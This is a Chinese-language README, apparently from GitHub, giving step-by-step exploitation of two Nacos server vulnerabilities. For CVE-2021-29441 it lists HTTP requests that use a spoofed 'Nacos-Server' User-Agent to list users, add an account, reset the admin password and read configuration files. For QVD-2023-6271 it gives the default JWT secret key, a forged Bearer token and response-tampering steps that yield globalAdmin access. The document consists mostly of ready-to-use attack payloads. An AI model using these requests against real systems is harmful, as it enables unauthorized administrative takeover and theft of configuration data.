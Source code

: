 # CVE-2021-29441未授权漏洞

## 查看用户

```
GET /nacos/v1/auth/users?pageNo=1&pageSize=2
...
User-Agent: Nacos-Server
```



## 新增账户

```
POST /nacos/v1/auth/users?username=crow&password=crow

User-Agent: Nacos-Server
...

username=crow&password=crow
```



## 修改密码

```
PUT /nacos/v1/auth/users?accessToken=

User-Agent: Nacos-Server
...

username=nacos&password=nacos
```



## 读取配置文件

```
GET /nacos/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99
或
GET /nacos/v1/cs/configs?search=blur&dataId=&group=&pageNo=1&pageSize=99

User-Agent: Nacos-Server
...
```





# QVD-2023-6271身份绕过漏洞

使用网站：https://jwt.io/

PAYLOAD改为

```
{
  "sub": "nacos",
  "exp": 1678899909
}
```

时间戳需要转换为未来时间

https://tool.lu/timestamp/



VERIFY SIGNATURE打钩且填入key

```
SecretKey012345678901234567890123456789012345678901234567890123456789
```

如下：

![image-20230423150609372](readme/image-20230423150609372.png)





登录改包，新增：

```
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY4MjMxNDkyN30.xaXvkLYsL0ORhLIRTrnHeogx8RSGG55qzLJXNuobrPc
```



获取以下格式返回包

```
HTTP/1.1 200 
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Content-Security-Policy: script-src 'self'
Set-Cookie: JSESSIONID=D90CF6E5B233685E4A39C1B1BDA9F185; Path=/nacos; HttpOnly
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTkwOX0.Di28cDY76JCvTMsgiim12c4pukjUuoBz6j6dstUKO7s
Content-Type: application/json
Date: Wed, 15 Mar 2023 14:13:22 GMT
Connection: close
Content-Length: 197


{"accessToken":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTkwOX0.Di28cDY76JCvTMsgiim12c4pukjUuoBz6j6dstUKO7s","tokenTtl":18000,"globalAdmin":true,"username":"nacos"}
```



提取accessToken，重新登录，修改返回包即可登录

